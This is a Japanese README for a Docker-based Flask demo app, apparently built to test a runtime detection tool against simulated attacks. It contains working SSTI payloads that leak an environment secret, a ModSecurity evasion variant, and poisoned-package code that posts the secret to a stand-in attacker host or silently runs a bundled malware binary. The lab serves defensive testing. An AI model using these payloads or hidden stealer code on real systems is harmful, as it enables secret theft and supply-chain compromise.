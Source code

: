 # flask-demoapp

Phrudeの検証で用いたPython Flask製のデモ用Webアプリです。

Webアプリに任意の処理を挿入する攻撃のうち、外部からのHTTPリクエスト経由の攻撃としてSSTI、内部からの攻撃として汚染ライブラリの混入(Pythonのコードで攻撃処理が記述されているもの・マルウェアバイナリを実行するもの)が実装されています。

## Setup

動作させるためには

- [Docker](https://docs.docker.com/)
- [Docker Compose](https://docs.docker.com/compose/)

をインストールしてください

DockerおよびDocker Composeをインストール後、`docker compose up -d`コマンドで

- <http://localhost:8080> Python Flask製のデモ用Webアプリ
- <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したPython Flask製のデモ用Webアプリ
- <http://localhost:8082> 攻撃の実行時に流出させた情報を受け取る、攻撃者の模擬サーバー

が起動します。

## 擬似的な攻撃の実行

以下の5つの擬似的な攻撃を実行することができます。

### 1. 外部からのHTTPリクエスト経由の攻撃

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8080/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8080> デモ用Webアプリに

```
{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

画面に `Hello wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY.`と表示されます。

この`wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY`は環境変数に格納されている秘密の鍵で、もしこの鍵がクラウドのリソースへアクセスするためのものである場合、このような攻撃による流出によってクラウドのリソースの不正な使用や情報流出に繋がります。

### 2. WAFに検知される外部からのHTTPリクエスト経由の攻撃

先程のデモ用WebアプリにオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したもので同じように

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8081/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したデモ用Webアプリに

```
{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

`403 Forbidden`エラーが画面に表示されます。

WAFはHTTPリクエストの文字列に含まれる、攻撃に特有の文字列を見つけることでそのHTTPリクエストが攻撃であるかを判断します。

`docker logs flask-demoapp-modsecurity-1`コマンドでオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)のログを確認すると`PHP Injection Attack: High-Risk PHP Function Call Found`というルールに抵触し、攻撃であると判断されたことが分かります。

### 3. WAFの検知を回避した外部からのHTTPリクエスト経由の攻撃

オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)の検知を回避するよう細工した攻撃文字列を送信します

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8081/ssti -d name="{{(request.application.__globals__.__builtins__.__import__('os')|attr('ge'+'tenv')).__call__('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したデモ用Webアプリに

```
{{(request.application.__globals__.__builtins__.__import__('os')|attr('ge'+'tenv')).__call__('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

画面に `Hello wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY.`と表示されます。

オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)の検知を回避し、環境変数に格納されている秘密の鍵`wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY`を流出させることができました。

### 4. Pythonのコードで攻撃処理が記述されている汚染ライブラリの混入による攻撃

このデモ用Webアプリが導入しているライブラリstealer_packageでは`__init__.py`ファイルに不審な処理が記述されています。

```python
try:
    import os
    import requests

    # Get an environment variable
    secret = os.getenv("CLOUD_SECRET_KEY")
    requests.post("http://attacker/", data={"CLOUD_SECRET_KEY": secret})
except:
    pass
```

ここではgetenv関数で環境変数に格納されている秘密の鍵を取得し、外部のサーバー`http://attacker/`へ送信しています。

ライブラリstealer_packageで提供されている機能を使う処理を実行します。

以下のようなcurlコマンドの実行

```
curl http://localhost:8081/stealer
```

もしくは <http://localhost:8081/stealer> へブラウザでアクセスしてください。

画面に `Stealer demo is executed`と表示されます。

このとき、デモ用Webアプリが導入しているライブラリstealer_package内の不審な処理が実行され、秘密の鍵が攻撃者のサーバー`http://attacker/`に送信され流出しました。

攻撃者の模擬サーバー <http://localhost:8082> を確認すると

```
[{'CLOUD_SECRET_KEY': 'wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY'}]
```

と秘密の鍵が攻撃者の手に渡っていることが確認できます。

### 5. マルウェアバイナリを実行する汚染ライブラリの混入による攻撃

このデモ用Webアプリが導入しているライブラリmalware_packageでは`__init__.py`ファイルに不審な処理が記述されています。

```python
try:
    import subprocess
    import os

    # Run malware
    subprocess.Popen(
        os.path.join(os.path.dirname(os.path.abspath(__file__)), "malware"),
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
        stdin=subprocess.DEVNULL,
    )
except:
    pass
```

ここではパッケージに同梱された実行可能ファイル`malware`を実行しています。

ライブラリmalware_packageで提供されている機能を使う処理を実行します。

以下のようなcurlコマンドの実行

```
curl http://localhost:8081/malware
```

もしくは <http://localhost:8081/malware> へブラウザでアクセスしてください。

画面に `Malware demo is executed`と表示されます。

このとき、デモ用Webアプリが導入しているライブラリmalware_package内の不審な処理が実行され、実行可能ファイル`malware`によってホスト名が攻撃者のサーバー`http://attacker/`に送信され流出しました。

攻撃者の模擬サーバー <http://localhost:8082> を確認すると

```
[{'hostname': '2c2c289ce392'}]
```

とホスト名が攻撃者の手に渡っていることが確認できます。

このようなマルウェアの実行では、Phrudeではsubprocessパッケージにより実行可能ファイルが実行されたことのみが検知できますが、システムコールによる検知ツールを使うことで実行可能ファイルがどのような処理をしたのかを把握することができます。
